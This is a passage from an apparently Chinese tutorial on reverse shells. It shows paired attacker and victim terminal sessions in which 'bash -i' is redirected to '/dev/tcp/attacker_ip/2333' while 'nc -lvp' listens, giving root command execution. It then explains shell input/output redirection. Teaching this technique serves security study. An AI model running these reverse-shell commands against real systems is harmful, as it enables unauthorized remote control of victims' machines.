 	eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
	        inet 172.22.181.6  netmask 255.255.240.0  broadcast 172.22.191.255
	        inet6 fe80::216:3eff:fe0e:9d06  prefixlen 64  scopeid 0x20<link>

	//测试结果：实现了将受害端的标准输出重定向到攻击端，但是还没实现用命令控制受害端。

受害端：

	[root@victim]# bash -i > /dev/tcp/attacker_ip/2333  //第二步
	[root@victim]# ifconfig                  			//第三步
	[root@victim]# 


测试二：

攻击端： 

	[root@attacker]# nc -lvp 2333         //第一步
	Connection from victim_ip:38286
	hostname                              //第三步（攻击端执行命令）
	id
	whoami

受害端：

	[root@victim]# bash -i < /dev/tcp/attacker_ip/2333    //第二步
	[root@victim]# hostname     
	attacker
	[root@victim]# id
	uid=0(root) gid=0(root) groups=0(root)
	[root@victim]# whoami
	root
	[root@victim]# 

	//测试结果：实现了将攻击端的输入重定向到受害端，但是攻击端看不到命令执行结果。

隐蔽性：★★★★★

交互性：★

## 底层原理

输出重定向 ```>```，相当于 ```1>```，输入重定向 ```<```，相当于```0<```，如果要使用错误输出，写成 ```2>```。

例如，把正确的结果放到test.txt，而把错误的结果放到test2.txt文件中：

![](images/7.jpg)
